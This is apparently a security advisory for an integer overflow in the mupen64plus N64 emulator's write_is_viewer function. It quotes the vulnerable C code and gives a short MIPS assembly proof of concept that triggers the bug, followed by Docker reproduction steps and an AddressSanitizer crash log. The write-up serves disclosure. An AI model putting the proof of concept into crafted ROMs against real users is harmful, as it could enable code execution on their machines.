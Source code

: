 ## Title: Integer Overflow and Virtual Machine Escape in mupen64plus <= 2.6.0

**BUG_Author:** Li Gangyang, USTC/TTCN


**Affected Version:** mupen64plus ≤ 2.6.0

**Vendor:** [mupen64plus emulator](https://mupen64plus.org/)

**Software:** [mupen64plus-core](https://github.com/mupen64plus/mupen64plus-core/)

**Vulnerability Files:**

- `src/device/cart/is_viewer.c#L59`

**Vulnerability Description:**  Mupen64Plus is a cross-platform, plugin-based N64 emulator that can accurately run many games. It includes four MIPS R4300 CPU emulators, a dynamic recompilation engine that supports 32-bit x86 and 64-bit amd64 systems, and plugins for audio, graphics rendering, signal co-processors, and input.

The Mupen64Plus emulator has an integer overflow vulnerability in its write_is_viewer function. An attacker can exploit this vulnerability by injecting malicious code into a game's ROM package, allowing them to escape the emulator and achieve arbitrary code execution on the host machine.


#### Vulnerability Analysis

Both `is_viewer->buffer_pos` and `word` are variables of type uint32_t, so their addition may result in integer overflow, causing the result to become smaller.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/cart/is_viewer.c#L59
void write_is_viewer(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct is_viewer* is_viewer = (struct is_viewer*)opaque;
    address &= IS_ADDR_MASK;
    uint32_t word = value & mask;
    if (address == 0x14)
    {
        if (word > 0)
        {
            /* make sure we don't overflow the buffer */
            if (is_viewer->buffer_pos + word > IS_BUFFER_SIZE)
            {
                /* reset buffer */
                memset(is_viewer->output_buffer, 0, IS_BUFFER_SIZE);
                is_viewer->buffer_pos = 0;
                DebugMessage(M64MSG_WARNING, "IS64: prevented buffer overflow, cleared buffer");
                return;
            }

            memcpy(&is_viewer->output_buffer[is_viewer->buffer_pos], &is_viewer->data[0x20], word);
            ...
        }
        ...
    }
    ...
}
```

![](./asserts/write_is_viewer.png)

- poc.asm

```
.section .shellcode,"awx"
.global _start
_start:
li    $a0, 0x93ff0014
li    $a1, 0xe00
sw    $a1, 0($a0)
li    $a1, 0xfffffffc
sw    $a1, 0($a0)
```


- reproduction

```
$ docker run -itv $(pwd):/mupen64plus --rm ubuntu:22.04 
root@c563c255a375:/# apt-get update
root@c563c255a375:/# apt-get install -y libasan6 libsdl2-2.0-0 libgl1 libglu1-mesa libvulkan1 libbinutils
root@c563c255a375:/# cd /mupen64plus/ 
root@c563c255a375:/mupen64plus# ./mupen64plus ./maliao.z64
...
==1484==ERROR: AddressSanitizer: memcpy-param-overlap: memory ranges [0x7f76e91c9258,0x7f76e91ca258) and [0x7f76e91c8278, 0x7f76e91c9278) overlap
    #0 0x7f76ed7c41ed in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827
    #1 0x7f76e7b99834 in write_is_viewer ../../src/device/cart/is_viewer.c:68
    #2 0x7f76e7c349e6 in mem_write32 ../../src/device/memory/memory.h:87
    #3 0x7f76e7c35f9c in r4300_write_aligned_word ../../src/device/r4300/r4300_core.c:372
    #4 0x7f76e7c9ec4c in dynarec_write_aligned_word ../../src/device/r4300/recomp.c:961
    #5 0x7f76c65b5082  (<unknown module>)

0x7f76e91c9258 is located 21311320 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
0x7f76e91c8278 is located 21307256 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
SUMMARY: AddressSanitizer: memcpy-param-overlap ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827 in __interceptor_memcpy
==1484==ABORTING
```

![](./asserts/write_is_viewer.asan.png)